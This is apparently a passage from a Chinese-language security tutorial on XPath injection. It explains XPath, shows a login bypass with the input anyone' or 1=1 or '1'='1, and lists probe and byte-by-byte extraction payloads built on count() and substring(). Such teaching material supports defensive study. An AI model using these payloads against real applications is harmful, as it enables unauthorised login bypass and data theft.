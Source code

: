 ##  3 XPATH Injection

###  3.1 XPATH 基本概念

XPath 即为 XML 路径语言，是 W3C XSLT 标准的主要元素，它是一种用来确定 XML（标准通用标记语言的子集）文档中某部分位置的语言。

XPath 基于 XML 的树状结构，有不同类型的节点，包括元素节点，属性节点和文本节点，提供在数据结构树中找寻节点的能力，可用来在 XML 文档中对元素和属性进行遍历。

XPath 使用路径表达式来选取 XML 文档中的节点或者节点集。这些路径表达式和我们在常规的电脑文件系统中看到的表达式非常相似。

更多信息可参考：https://www.w3school.com.cn/xpath/index.asp

如果信息被存储在XML文档中，那么查询信息的方法就是借助XPATH语句实现。虽然XML并不是存储大量信息的首选方式，但仍有可能存在。可能使用XML存放信息的情况有：
- 配置文件
- Internet交换文档使用了XML。
- 小型数据文件
- 物联网设备中的信息


###  3.2 XPATH 注入示例


下面是一个XPath查询语句，获取loginID为abc的所有user数据。
```
//users/user[loginID/text()=’abc’ and password/text()=’test123’]
```
用户需要提交正确的loginID和password才能返回结果。但如果黑客在 loginID 字段中输入：anyone' or 1=1 or '1'='1 并在 password 中输入：123，或任意字符串，就能绕过校验，成功获取所有user数据，原语句就变成如下句子：
```
//users/user[LoginID/text()='anyone' or 1=1 or '1'='1' and password/text()='123']
```

####  3.2.1 渗透思路

任何时候，在探查sql注入时发现注入点又不能成功时，可以尝试下列XPATH注入：

1.尝试提交下列注入载荷，并确定它们是否能够引起应用程序行为变化，但又不会造成错误。

若输入框要求输入字符串时：
```
' or count(parent::*[position()=1])=0 or 'a'='b

' or count(parent::*[position()=1])>0 or 'a'='b
```
若输入框要求输入字符串时：

```
1 or count(parent::*[position()=1])=0 

1 or count(parent::*[position()=1])>0 
```

2.如果上面的任何字符串导致应用程序的行为发生改变，但不会造成错误，很可能可以通过设计测试条件，一次提取一个字节的信息，从而获取任意数据。使用一系列以下格式的条件确定当前节点的父节点的名称：
```
substring(name(parent::*[position()=1]),1,1)='a

substring(name(parent::*[position()=1]),1,1)='b
```
